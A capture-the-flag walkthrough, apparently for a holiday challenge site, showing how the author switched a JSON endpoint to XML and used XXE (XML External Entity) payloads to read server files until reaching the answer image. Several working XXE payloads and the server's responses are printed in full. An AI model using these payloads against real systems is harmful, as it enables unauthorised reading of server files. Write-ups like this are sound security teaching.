 ![](../../../resources/screenshots/glamtarielsfountain-intro.png)

We're taken to a website, `https://glamtarielsfountain.com/`. At the bottom we're given two items (note that the "Reset" button in the top right changes these values):

- **Snack**: `0c4b81f9-38fc-40be-9c4b-b3bbb3a95ab5`
- **Ticket**: `ImY4ZTAxYzYyMGNiZmVhMjEyMDE4YTYzNTlkZDI0ODJmZmFlYjBmYzMi.Y5aBDQ.G_4D45x_A59zk-2nS22JWXfPSU4`

I'm going to do a short walkthrough straight to the answer without my struggles, because this was honestly a massive PITA and had way too much guessing involved.

1. You can drag and drop the items to the princess or the fountain. These are represented in a JSON object via `POST /dropped`:

![](../../../resources/screenshots/glamtarielsfountain-firstpost.png)

1. You receive a JSON object in the response, which changes depending on the `imgDrop` (img1 thru img4) and the `who` (princess or fountain).

![](../../../resources/screenshots/glamtarielsfountain-firstresponse.png)

1. Eventually you find that you need to talk to them using XML format vs. JSON. I used Burp suite to Cluster Bomb the way to the end (if you do this manually, you'll find that the objects change twice).  I did the following:
	1. `Content-Type: <application/json|application/xml>`
	2. `imgDrop: img<#>`
	3. `who: <fountain|princess>`
	4. `reqType: <json|xml>`

1. Once I got to the end, I removed the JSON references and sent the input to Burpsuite's Repeater function. I also converted the input from JSON to XML:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. We now have to use XXE (XML External Entity) to read the RINGLIST file (it is referenced in one of the Princess' texts).  This is where the pain is. Eventually, we get the following to work:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. Once we do that, we get a response:

```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

1. Navigating to the image provided, we get:

![](../../../resources/screenshots/glamtarielsfountain-pholder.png)

1. It has `x_phial_pholder_2022` on the folder cover, with `bluering.txt` and `redring.txt` files inside of it. So we craft a new payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Which returns:

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

1. This returns a new ring picture with another string, `goldring_to_be_deleted.txt` (I have rotated the picture to make it readable):

![](../../../resources/screenshots/glamtarielsfountain-redring.png)

1. New payload, new response:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

```json
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

1. We see reference to REQ and TYPE in this response. Maybe we need to do an XXE in against `reqType` instead of `imgDrop`?

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&bar;</reqType>
</root>
```

Response:

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

![](../../../resources/screenshots/glamtarielsfountain-goldring.png)

Answer: `goldring-morethansupertopsecret76394734.png`
